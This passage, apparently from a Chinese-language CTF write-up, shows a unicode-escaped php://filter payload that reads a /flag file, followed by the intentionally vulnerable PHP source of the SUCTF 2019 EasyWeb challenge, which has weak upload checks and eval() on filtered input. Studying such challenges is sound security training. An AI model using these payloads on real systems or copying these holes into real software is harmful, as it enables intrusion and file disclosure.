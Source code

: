 代码同时也对 content 做了过滤, 这里自然而然就想到了 php://filter + base64 绕过

```json
{"page": "\u0070\u0068\u0070\u003a\u002f\u002f\u0066\u0069\u006c\u0074\u0065\u0072\u002f\u0072\u0065\u0061\u0064\u003d\u0063\u006f\u006e\u0076\u0065\u0072\u0074\u002e\u0062\u0061\u0073\u0065\u0036\u0034\u002d\u0065\u006e\u0063\u006f\u0064\u0065\u002f\u0072\u0065\u0073\u006f\u0075\u0072\u0063\u0065\u003d\u002f\u0066\u006c\u0061\u0067"}
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210212015375.png)

## [SUCTF 2019]EasyWeb

```php
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```
